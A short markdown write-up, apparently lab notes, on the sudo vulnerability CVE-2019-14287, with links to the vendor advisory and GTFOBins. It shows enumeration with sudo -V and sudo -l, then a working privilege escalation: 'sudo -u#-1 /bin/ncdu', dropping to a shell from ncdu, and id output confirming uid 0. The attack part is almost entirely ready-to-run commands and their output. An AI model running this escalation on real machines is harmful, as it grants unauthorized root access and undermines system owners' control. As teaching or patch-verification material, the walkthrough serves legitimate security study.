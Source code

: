 # CVE-2019-14287 - sudo - all versions below 1.8.28 (bug is fixed in sudo 1.8.28)

Vulnerability was found in 2019 that affected all versions below 1.8.28, which allowed privileges to escalate even with a simple command. This vulnerability has the CVE-2019-14287 and requires only a single prerequisite. It had to allow a user in the /etc/sudoers file to execute a specific command.

## Enumeration

```bash
$ sudo -V

Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

```bash
$ sudo -l

Matching Defaults entries for student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on ubuntu:
    (ALL, !root) /bin/ncdu
```

## Exploitation

```bash
$ sudo -u#-1 /bin/ncdu
...
```

![ncdu - spawn shell](images/ncdu_shell.png)

```bash
b
```

```bash
# id
uid=0(root) gid=1001(student) groups=1001(student)
```

## Links

- [](https://www.sudo.ws/security/advisories/minus_1_uid/)
- [GTFOBins](https://gtfobins.github.io/)
- [GTFOBins - ncdu](https://github.com/GTFOBins/GTFOBins.github.io/pull/417)
